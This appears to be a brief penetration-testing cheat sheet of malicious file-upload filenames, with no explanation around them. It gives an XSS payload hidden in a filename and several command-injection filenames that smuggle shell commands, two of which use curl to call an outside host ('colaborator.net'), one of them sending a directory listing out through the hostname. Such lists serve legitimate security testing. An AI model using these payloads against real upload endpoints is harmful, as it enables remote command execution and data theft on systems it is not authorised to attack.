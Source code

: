 
## FILE UPLOAD + XSS

```
filename="<u onmouseover=alert(1)>eee.png
```

## FILEUPLOAD + RCE

```
filename="test.png | ls"

filename="test.png ; ls"

filename="test $(curl colaborator.net).png"

filename="test $(curl $(ls)colaborator.net).png"
```